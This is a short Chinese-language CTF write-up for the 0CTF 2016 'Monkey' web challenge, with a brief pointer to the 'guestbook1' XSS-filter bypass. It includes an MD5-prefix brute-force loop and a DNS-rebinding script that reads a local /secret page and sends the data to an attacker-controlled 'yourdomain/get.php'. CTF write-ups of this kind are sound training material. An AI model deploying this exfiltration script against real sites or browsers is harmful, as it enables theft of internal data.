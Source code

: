 
## Monkey (跨同源策略)

首先是一个md5碰撞，本以为很麻烦，后来发现其实就是相当于验证码类似的东西。
```
import random
import hashlib
str = 10000

while 1:
	m2 = hashlib.md5()   
	m2.update(repr(str)) 
	if (m2.hexdigest()[0:6]=='bfb93d'):
		print str 
		break
	str+=1
	
```
然后尝试通过`<img><iframe>`读东西，发现由于同源策略怎么都读不到。
看了别人的writeup:

[http://www.isecer.com/ctf/0ctf_2016_web_writeup_monkey.html](http://www.isecer.com/ctf/0ctf_2016_web_writeup_monkey.html)
[https://w00tsec.blogspot.jp/2016/03/0ctf-2016-write-up-monkey-web-4.html](https://w00tsec.blogspot.jp/2016/03/0ctf-2016-write-up-monkey-web-4.html)

知道是通过一些神秘的手段，首先是要通过ajax CORS跨域，然后把域名解析到127.0.0.1,然后记得放在8080端口，在他打开并停留的时候，解析，就可以了Orz(麻麻问我为什么跪着打字)
服务器脚本类似于这样
```
<script src="jquery.min.js"></script>
<script>
function getdata(){
    $.ajax({
        type: "GET",
        url:'http://xxx.com:8080/secret',
        async: true,
        error: function(request) {
            getdata();
        },
        success: function(data) {
            $.get('http://yourdomain/get.php?data='+data);
        }
    });
}
getdata();
</script>
````

## guestbook1 (bypass xss filter)
题目完全是被卡住了，是用了两个黑魔法过判断的，复现了很久才成功。主要是看了这篇博客
[http://security.szurek.pl/0ctf-2016-guestbook-1-writeup.html](http://security.szurek.pl/0ctf-2016-guestbook-1-writeup.html)
